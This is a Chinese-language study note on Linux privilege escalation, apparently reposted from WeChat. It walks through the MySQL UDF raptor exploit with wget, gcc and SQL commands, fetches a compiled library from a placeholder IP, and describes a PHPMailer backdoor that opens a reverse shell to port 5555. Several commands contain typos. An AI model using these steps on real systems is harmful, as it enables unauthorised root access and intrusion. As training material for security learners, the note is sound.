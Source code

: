 上传信息收集脚本进行提权信息收集

./LinEnum.sh

翻阅数据库配置文件获取root密码

#利用Mysql提权 searchsploit

下载mysql udf poc进行编译(建议在本地完成,有可能目标没有gcc)

wget https://www.exolpit-db.com/download/1518

mv 1518 raptor\_udf.c

gcc -g -c raptor\_udf.c

gcc -g -shard -o raptor\_udf.so raptor\_udf.o

mv raptor\_udf.so 1518.so

下载1518到目标服务器(也可以通过webshell上传)

wget https://xx.xx.xx.xx/1518.so

54进入数据库进行UDF导出

数据库导出 直接放在那个目录没有权限

use mysql;

create table foo(line blob0);

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawDbia9wRQlQNtGuXMY2fB5Q3j2FNZNHgdp3dIzYGzmH8RwhBKGVBVCGg%2F640%3Fwx_fmt%3Dpng)

目标主机

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawoFZT9hQEPqVTmtjchlLq7jm3LQqRUWa8yudMq0LWiazbibR2swPZvhNg%2F640%3Fwx_fmt%3Dpng)

扫描发现有一个目录遍历,里面有一个PHPMailerAutoload.php第三方插件

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw02dPswySQb3xeLQFGu7DKj7E6usRcloIYbQNcO29nfOiaqDoDnrV8Tg%2F640%3Fwx_fmt%3Dpng)

网上也有PHPMailerAutoload.php的漏洞,下载EXP

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawNiah7sH5ykBZLd2lSToibHHdiagWAdiaaWmjKkeQYYChaMh9IXUfJ2icEWw%2F640%3Fwx_fmt%3Dpng)

生成了后⻔文件xiaodi.php,反弹到5555的端口,监听

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawgfG3ENrntTCicTTPmU4JS6Et7xy7iclWcA4icOGRiahV2NzcQobiaQIiaonA%2F640%3Fwx_fmt%3Dpng)

获得webshell在/tmp目录上传信息收集脚本,获得除了suid的信息,还有mysql

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawq3x3Pa7TzqyhSNBkFQU2pyWLVRJSdB5ibQxlicyd9QUe4h6yaIj8yicqA%2F640%3Fwx_fmt%3Dpng)

翻阅数据库配置文件获取root密码

* * *

_**LInux提权提升漏洞查找关注点-扩展总结**_

1.提权环境,信息收集(SUID,定时任务,可能漏洞,第三方服务应用等)

2.最新相关漏洞要明确(关注点),二次开发相关脚本学会展望(四个脚本)

3.本地searchsploit脚本及远程exploitdb站点搜索说明

4.其他提权方法如:密码复用(mysql或其他第三方应用密码有可能是root密码),guid,sudo等说明

(运气,同理,鸡肋等)

以上为阶段学习笔记的整理，可能格式方面不是很有条理性，望海涵。-

技术交流，勿做违法用途.

[查看原网页: mp.weixin.qq.com](https://mp.weixin.qq.com/s/YJHPlRBEz1rYHrOjAIZvkQ)